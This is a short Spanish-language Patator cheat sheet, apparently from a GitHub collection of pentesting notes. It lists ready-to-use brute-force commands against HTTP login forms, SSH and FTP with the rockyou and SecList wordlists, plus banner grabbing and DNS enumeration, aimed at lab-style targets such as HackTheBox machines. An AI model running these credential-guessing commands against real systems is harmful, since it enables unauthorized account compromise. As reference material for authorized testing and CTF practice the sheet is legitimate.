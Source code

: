 # Patator Cheat Sheet

#### Fuerza Bruta a HTTP
```
patator http_fuzz url="http//10.10.10.43/deparment/login.php" method=POST body='username=admin&password=FILE0' 0=/usr/share/wordlist/rockyou.txt follow=1 accept_cookie=1 -x ignore:fgrep="Invalid Password\!"
```

#### Fuerza Bruta a SSH
```
patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=/root/Documentos/HTB/Sunday/usuarios.txt password=FILE1 1=/root/SecList/Passwords/probable-v2-top1575.txt -x ignore:fgrep='failed'
```

#### Fuerza Bruta a FTP
```
patator ftp_login host=192.168.2.6 user=FILE0 0=/usr/share/wordlists/rockyou.txt password=FILE1 1=/usr/share/wordlists/rockyou.txt -x ignore:fgrep='incorrect' -x ignore,reset,retry:code=500
```

#### Banner Grabbing
```
patator tcp_fuzz host=<Target> port=<port>
```

#### Consulta de Servidores DNS
```
patator dns_forward name=FILE0.domain.com 0=lista.txt -x ignore:code=3
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)